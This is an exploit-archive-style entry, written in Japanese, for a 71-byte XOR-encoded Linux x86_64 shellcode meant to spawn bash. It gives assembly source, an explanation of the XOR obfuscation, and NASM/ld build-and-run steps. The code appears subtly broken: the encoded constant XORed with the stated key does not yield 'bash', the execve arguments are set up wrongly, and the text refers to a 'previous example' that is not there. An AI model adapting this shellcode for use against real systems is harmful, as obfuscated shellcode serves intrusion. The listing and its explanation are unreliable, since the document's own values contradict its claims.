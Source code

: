 <!--
エクスプロイトのタイトル: Linux/x86_64 - XOR エンコードされた Bash シェルコード
日付: 2022年2月18日
エクスプロイトの作成者: @raheel0x01
連絡先: 0x29fe2@pm.me
カテゴリ: Shellcode
アーキテクチャ: Linux x86_64
シェルコードの長さ: 71 Bytes
-->

```assembly
; エクスプロイトのタイトル: Linux/x86_64 - XOR エンコードされた Bash シェルコード
; 日付: 2022年2月18日
; エクスプロイトの作成者: @raheel0x01
; カテゴリ: Shellcode
; アーキテクチャ: Linux x86_64
; シェルコードの長さ: 71 Bytes

section .data
 
section .text
  global _start
 
_start:
  ; execve() のための argv と envp 配列のセットアップ
  xor rax, rax
  mov [rsp-8], rax
  mov qword [rsp-16], 0x72613162 ; 暗号化された 'bash'
  xor byte [rsp-16], 0x08
  xor byte [rsp-15], 0x16
  xor byte [rsp-14], 0x24
  xor byte [rsp-13], 0x32
  lea rdx, [rsp-16]
  mov qword [rsp-24], rdx
  mov qword [rsp-32], rdx
  lea rdi, [rsp-32]
 
  ; execve() を呼び出す
  xor eax, eax
  mov al, 59
  syscall
 
  ; ステータスコード 0 で終了する
  xor eax, eax
  mov ebx, eax
  mov al, 60
  syscall
```

-----------

## 説明:

このコードは、実行されるプログラムの名前「"bash"」をXOR暗号化して隠すために使用されます。XOR暗号化キーは `0x08162432` であり、文字列の各バイトに適用されます。復号化は、`execve` を呼び出す直前に行われるため、プログラム名は元の形式で渡されます。

コードの残りの部分は前の例と同じで、`execve` 関数に対してシステムコールを行い、その後、プロセスを終了させるために `exit` システムコールを呼び出します。

---------
### コンパイルと実行:

Linuxシステムでx86_64アセンブリコードを実行するには、まず実行可能ファイルにコードをアセンブルし、そのファイルを実行する必要があります。以下に手順を示します:

1. コードを`.asm`拡張子のファイルに保存します。例えば`bash.asm`とします。

2. アセンブラ（例: NASM）を使用して、コードをオブジェクトファイルにアセンブルします:
   `nasm -f elf64 -o bash.o bash.asm`
   `-f elf64`オプションは、出力形式をELF64（実行可能リンカブル形式）に指定し、`-o`オプションは出力ファイルの名前を`bash.o`に指定します。

3. `ld`リンカを使用して、オブジェクトファイルを実行可能ファイルにリンクします:
   `ld -s -o bash bash.o`
   `-s`オプションは、出力ファイルからシンボルテーブルを削除してファイルサイズを小さくするためのものであり、`-o`オプションは出力ファイルの名前を`bash`に指定します。

4. ファイルに実行権限を付与します:
   `chmod +x bash`

5. 最後に、ファイルを実行できます:
   `./bash`
